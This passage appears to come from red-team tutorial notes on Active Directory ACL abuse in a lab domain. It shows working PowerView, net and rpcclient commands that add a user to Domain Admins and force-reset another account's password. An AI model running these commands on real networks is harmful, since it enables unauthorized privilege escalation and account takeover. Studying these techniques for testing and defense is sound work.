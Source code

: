 ```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../../.gitbook/assets/11.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../../.gitbook/assets/12.png)

## **ForceChangePassword**

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../../.gitbook/assets/13.png)

Doing the same with powerview:

```csharp
Set-DomainUserPassword -Identity delegate -Verbose
```

![](../../../.gitbook/assets/14.png)

Another method that does not require fiddling with password-secure-string conversion:

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

![](../../../.gitbook/assets/15.png)

...or a one liner if no interactive session is not available:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../../.gitbook/assets/16.png)

and one last way yo achieve this from linux:

```markup
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```
